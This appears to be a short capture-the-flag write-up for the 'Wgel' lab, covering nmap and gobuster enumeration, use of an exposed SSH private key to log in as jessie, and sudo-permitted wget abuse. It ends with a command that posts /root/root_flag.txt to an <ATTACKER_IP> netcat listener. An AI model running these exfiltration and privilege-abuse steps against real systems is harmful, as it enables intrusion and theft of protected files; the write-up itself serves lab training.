




# Wgel CTF
Firstly, we scan the target:
`nmap -sV -sC -A -T4 $IP -oN wgel.nmap`
This reveals 2 open ports - 22 and 80.

Notably, ssh is version 7.2p2, which is vulnerable to username enumeration (CVE-2016-6210), though there is an easier approach.

Upon inspecting the web, which shows Apache default page, we notice there is a comment meant as a message for *Jessie*, which will be important later.

Enumerating with gobuster
`gobuster dir -u $IP -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`
reveals sitemap.
We enumerate again:
`gobuster dir -u $IP/sitemap -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`
This time, gobuster found *.ssh*, where is a *id_rsa* private key.

We try to connect to ssh as Jessie `chmod 600 id_rsa; ssh -i id_rsa jessie@$IP`, which succeeds.
Now, we obtain the user flag from `$HOME/Documents/user_flag.txt`.

Checking for privileged access
`sudo -l` reveals that Jessie can use `wget` as root.

using this we recover the root flag:
`sudo /usr/bin/wget --post-file=/root/root_flag.txt <ATTACKER_IP>:1234`
and on the local machine `nc -nvlp 1234`.

